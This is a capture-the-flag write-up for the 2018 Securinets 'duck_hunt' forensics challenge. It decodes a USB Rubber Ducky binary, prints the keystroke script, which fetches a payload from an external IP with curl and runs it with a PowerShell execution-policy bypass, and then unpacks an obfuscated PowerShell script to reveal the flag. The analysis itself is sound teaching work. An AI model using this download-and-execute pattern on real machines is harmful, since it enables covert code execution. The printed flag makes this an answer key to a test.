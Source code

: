 ```yaml
---
layout: single
title: "[2018_Securinets_CTF] duck_hunt(300)"
description:
headline:
modified: 2018-03-26
category: [CTF]
tags: [2018_Securinets, Forensic, Writeup, ducky]
imagefeature:
mathjax:
chart:
comments: true
featured: true
toc: true
toc_sticky: true
---
```



## Exercise

> Do you know someone who loves hunting ducks?
> Link: http://for.ctfsecurinets.com/8/unknown.bin

![](/assets/images/2018-03-26-Securinets-CTF-duck-hunt-300/exercise.png)
<p align='center'>[그림] exercise</p>


## Solution

You can download a binary called "unknown.bin". After download the "unknown.bin", that is look like dummy binary.


you need to know "duck" in exercise. that is "ducky". ducky, which uses the mcu chip for usb and performs common operations, uses the result of the compilation "inject.bin".(more important : "https://hakshop.com/products/usb-rubber-ducky-deluxe")


below site, you can decode that binary. "https://ducktoolkit.com/decoder/"
![](/assets/images/2018-03-26-Securinets-CTF-duck-hunt-300/decode.png)
<p align='center'>[그림] decode site</p>



After Binary file decode, you can see that original "ducky code".
![](/assets/images/2018-03-26-Securinets-CTF-duck-hunt-300/decode_file.png)
<p align='center'>[그림] original ducky code</p>


This is ducky code. you can see "http://34.240.44.38/payload.txt" about "GET url".
```bash
DELAY
ADELAY
DELAY
DELAY
cd / & mkdir .haxor & cd .haxor & echo (curl -X GET  http://34.240.44.38/payload.txt) > file.PS1 & powershell -ExecutionPolicy ByPass -File file.ps1
DELAY

```

You can tell from the payload.txt that it is a powershell script, and seems to have a simple obfuscation. Nothing is a problem. This is "payload.txt" (powershell script)
```powershell
${;}=+$();
${=}=${;};
${+}=++${;};
${@}=++${;};
${.}=++${;};
${[}=++${;};
\n${]}=++${;};
${(}=++${;};
${)}=++${;};
${&}=++${;};
${|}=++${;};
${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]";
${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]);
${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]
"${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${(}${+}+${"}${&}${@}+${"}${+}${=}${+}+${"}${|}${)}+${"}${+}${=}${=}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${[}${]}+${"}${&}${=}+${"}${+}${+}${[}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${+}${@}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${(}${|}+${"}${+}${+}${=}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${.}${@}+${"}${+}${+}${(}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${.}${@}+${"}${+}${+}${@}+${"}${|}${)}+${"}${+}${+}${]}+${"}${+}${+}${]}+${"}${+}${+}${|}+${"}${+}${+}${+}+${"}${+}${+}${[}+${"}${+}${=}${=}+${"}${.}${|}+${"}${+}${.}+${"}${+}${=}+${"}${)}${.}+${"}${+}${=}${@}+${"}${[}${=}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${@}+${"}${[}${]}+${"}${+}${=}${+}+${"}${+}${+}${.}+${"}${.}${@}+${"}${.}${|}+${"}${)}${=}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${+}${@}${.}+${"}${+}${=}${]}+${"}${+}${+}${]}+${"}${|}${]}+${"}${|}${)}+${"}${|}${]}+${"}${+}${+}${[}+${"}${+}${+}${)}+${"}${|}${&}+${"}${|}${&}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${|}${]}+${"}${+}${=}${=}+${"}${+}${+}${)}+${"}${|}${|}+${"}${+}${=}${)}+${"}${+}${@}${+}+${"}${|}${]}+${"}${+}${+}${)}+${"}${+}${+}${]}+${"}${+}${=}${+}+${"}${+}${=}${=}+${"}${|}${]}+${"}${+}${+}${]}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${=}${+}+${"}${+}${+}${|}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${+}${=}${+}+${"}${.}${.}+${"}${+}${@}${]}+${"}${.}${|}+${"}${[}${+}+${"}${+}${@}${.}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${)}${+}+${"}${+}${+}${+}+${"}${+}${+}${+}+${"}${+}${=}${=}+${"}${.}${@}+${"}${)}${[}+${"}${+}${+}${+}+${"}${|}${&}+${"}${.}${.}+${"}${.}${|}+${"}${]}${|}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${[}+${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${[}+${"}${+}${.}+${"}${+}${=}+${"}${+}${@}${]}"
```


Unpacking is simple. Just run it in powershell as it's written in payload.
![](/assets/images/2018-03-26-Securinets-CTF-duck-hunt-300/run.png)
<p align='center'>[그림] powershell run</p>

If "[CHar]" type values are output, the user can get the input value and check the comparison code. Within that code we can get the flag.

![](/assets/images/2018-03-26-Securinets-CTF-duck-hunt-300/type.png)
<p align='center'>[그림] result of run</p>

```bash
$flag = Read-Host-Prompt 'Enter the password'
If (flag -eq 'Flag{is_a_rubber_ducky_used_somewhere!}'
```
![](/assets/images/2018-03-26-Securinets-CTF-duck-hunt-300/flag.png)
<p align='center'>[그림] flag</p>


<p align='right'><strong>Flag{is_a_rubber_ducky_used_somewhere!}</strong></p>

